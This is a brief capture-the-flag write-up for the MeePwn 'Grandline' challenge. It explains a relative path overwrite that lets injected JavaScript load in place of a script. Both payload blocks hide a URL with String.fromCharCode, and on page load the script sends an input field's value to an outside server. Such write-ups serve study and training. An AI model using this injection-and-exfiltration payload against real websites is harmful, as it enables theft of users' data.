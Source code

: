 # Grandline

`Author: SYM01`

There is a `RPO` problem in the website. When visit [http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/{abc}/](http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/{abc}/), the page will load the script from `http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/{abc}/js/jquery.min.js`.

The only thing we need to to is making that script evil. 
We simply replace the token `{abc}` with the following payload, 
then the evil script works and sends the flag to our server.
```txt
*/window.onload=function()%7Blocation=String.fromCharCode(104,116,116,112,58,47,47,51,53,46,50,48,55,46,52,46,50,51,47)%2Bdocument.querySelectorAll(String.fromCharCode(105,110,112,117,116))[1].value%7D;console.log(/*
```

So the final payload is 
```url
http://localhost/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/*/window.onload=function()%7Blocation=String.fromCharCode(104,116,116,112,58,47,47,51,53,46,50,48,55,46,52,46,50,51,47)%2Bdocument.querySelectorAll(String.fromCharCode(105,110,112,117,116))[1].value%7D;console.log(/*/
```

-->
`You are on new world, flag: MeePwnCTF{Welcome_to_New_World}`

